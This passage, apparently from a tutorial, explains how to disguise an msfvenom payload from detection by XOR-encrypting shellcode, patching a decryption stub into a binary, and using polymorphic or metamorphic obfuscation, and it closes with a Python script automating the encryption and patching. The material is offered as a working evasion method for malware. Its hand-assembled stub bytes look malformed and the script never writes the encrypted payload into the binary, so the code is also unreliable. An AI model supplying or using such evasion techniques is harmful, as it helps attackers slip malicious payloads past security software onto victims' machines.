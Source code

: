2. **Patch the Binary**:
   - **Hex Editing**: Open the binary in a hex editor and manually insert the decryption code at the start or at a strategic point in the binary.
   - **Binary Insertion**: Use a script to insert the decryption routine into the binary.

#### **d. Test and Debug**

After adding the decryption routine:

- **Test the Binary**: Run it on a test machine to ensure it decrypts and executes correctly.
- **Debugging**: Use a debugger to step through the decryption process to verify that it works as expected.

### **4. Automating the Process**

To automate the process, you can write a script that:

1. **Encrypts the Payload**: Automatically encrypts the payload after generating it with msfvenom.
2. **Inserts the Decryption Routine**: Patches the binary with the decryption routine.
3. **Tests**: Optionally, runs the payload in a controlled environment to ensure it works.

### **5. Advanced Obfuscation Techniques**

- **Polymorphic Shellcode**: Generates different versions of the same payload by altering the encryption/decryption method or instruction set, making each instance unique.
- **Metamorphic Shellcode**: Self-altering code that changes its structure each time it runs, further complicating detection.
- **Inline Decryption**: Embed decryption routines within the payload itself, dynamically decrypting parts of the code as it executes.

### **Example Python Script to Automate the Process**

Here’s an example of automating the XOR encryption and patching process:

```python
import struct

def xor_encrypt(shellcode, key):
    return bytearray([b ^ key for b in shellcode])

def create_decryption_stub(payload_address, payload_size, key):
    # Assemble a simple decryption stub for 64-bit Windows/Linux
    return b"\x48\x31\xf6" + b"\x48\x31\xff" + struct.pack('<I', payload_size) + struct.pack('<Q', payload_address) + b"\xb0" + struct.pack('B', key) + b"\x48\x31\xc0" + b"\x80\x30" + b"\x48\xff\xc7" + b"\x48\xff\xc7" + b"\xeb\xec\x48\xff\xe3"

def patch_binary(binary_path, stub, offset):
    with open(binary_path, "rb+") as f:
        content = bytearray(f.read())
        content[offset:offset + len(stub)] = stub
        f.seek(0)
        f.write(content)

# Example usage
shellcode_path = "shellcode.bin"
binary_path = "patched_shell.exe"
key = 0xAA

with open(shellcode_path, "rb") as f:
    shellcode = bytearray(f.read())

encrypted_shellcode = xor_encrypt(shellcode, key)
decryption_stub = create_decryption_stub(0x400000, len(shellcode), key)

patch_binary(binary_path, decryption_stub, 0x100)  # Patching at offset 0x100

```